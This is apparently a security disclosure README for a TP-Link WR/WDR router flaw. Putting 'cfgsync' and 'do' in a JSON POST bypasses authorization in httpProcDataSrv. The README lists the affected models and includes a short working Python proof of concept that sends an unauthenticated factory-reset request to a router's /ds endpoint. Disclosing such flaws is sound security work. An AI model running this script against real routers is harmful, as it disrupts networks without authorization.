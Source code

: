 # TP-Link-poc

TP-Link router have a Command Execute in ``httpProcDataSrv`` function.

Any user can get remote code execution through LAN, this vulnerability currently     affects latest WR,WDR series. includeing WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

### Vulnerability description

This vulnerability happen when ``httpProcDataSrv`` receive a data in json format from ``HTTP post request``.If the strings ``cfgsync`` and ``do``in users input,the post json would  bypass httpDoAuthorize.

![](1.png)

![image-20210728095522755](2.png)

### Poc
```python3
import sys
import requests
if len(sys.argv) != 2:
    exit()
ip = sys.argv[1]
s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post("http://%s/ds" %ip, data=data)
print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```

### Timeline
2021.7.27 report to CVE and TP-Link

### Acknowledgment
Credit to [@H4lo](https://github.com/H4lo) from Hatlab at dbappsecurity.
